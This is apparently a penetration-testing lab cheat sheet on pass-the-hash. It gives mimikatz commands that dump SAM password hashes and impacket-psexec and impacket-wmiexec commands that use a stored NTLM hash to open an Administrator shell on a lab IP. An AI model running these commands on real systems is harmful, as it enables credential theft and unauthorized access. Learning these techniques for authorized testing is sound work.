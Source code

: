 ```yaml
---
IP_KALI: 192.168.45.155
HASH: fdf36048c1cf88f5630381c5e38feb8e
USER: wario
IP_TARGET: 192.168.215.212
---
```

Extract hashes w mimikatz:
```
privilege::debug
```
```
token::elevate
```
```
lsadump::sam
```

SMBclient can pass the hashes to access shares

NOTE: The format is "LMHash:NTHash", in which we specify the Administrator NTLM hash after the colon. Since we only use the NTLM hash, we can fill the LMHash section with 32 0's.
Using impacket-psexec to get a shell:
- impacket-psexec -hashes 00000000000000000000000000000000:<span id="HASH"/>fdf36048c1cf88f5630381c5e38feb8e<span type="end"/> Administrator@<span id="IP_TARGET"/>192.168.215.212<span type="end"/>

Using impacket-wmiexec to get a shell:
- impacket-wmiexec -hashes 00000000000000000000000000000000:<span id="HASH"/>fdf36048c1cf88f5630381c5e38feb8e<span type="end"/> <span id="USER"/>wario<span type="end"/>@<span id="IP_TARGET"/>192.168.215.212<span type="end"/>